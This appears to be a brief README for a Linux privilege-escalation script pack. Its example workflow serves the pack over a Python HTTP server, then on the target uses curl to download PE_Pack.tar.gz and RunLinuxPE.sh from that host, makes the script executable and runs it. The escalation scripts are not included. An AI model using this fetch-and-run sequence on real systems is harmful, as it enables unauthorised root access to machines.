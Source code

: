 # Frist run
```bash
./DownloadLinuxPECScript.sh
```
And you will get `PE_Pack.tar.gz`.

# How to use?
Just run `RunLinuxPE.sh`.

# Simple Example
```bash
python3 -m http.server 
cd /tmp
curl http://null:8000/PE_Pack.tar.gz > PE_Pack.tar.gz 
curl http://null:8000/RunLinuxPE.sh > RunLinuxPE.sh && chmod u+x RunLinuxPE.sh && ./RunLinuxPE.sh
```
